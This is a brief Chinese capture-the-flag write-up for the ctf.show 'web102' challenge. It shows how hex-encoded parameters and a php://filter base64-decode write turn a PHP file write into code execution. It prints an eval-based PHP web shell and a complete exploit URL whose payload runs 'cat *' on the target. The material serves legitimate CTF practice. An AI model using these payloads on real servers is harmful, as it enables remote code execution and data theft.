

# web102

v1写调用函数,v2写内容(去掉前两个字符),v3写文件名
<?php eval($_GET["cmd"]);?>--->0x3c3f706870206576616c28245f4745545b22636d64225d293b3f3e
在PHP 5下返回true, 在PHP 7下返回false, 去掉前面的0x, 刚好能用hex2bin恢复成字符串
但是本题环境是PHP 7会返回false

用https://83c43093-ec5c-43a5-b8c2-760913cb3d2c.challenge.ctf.show/?v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php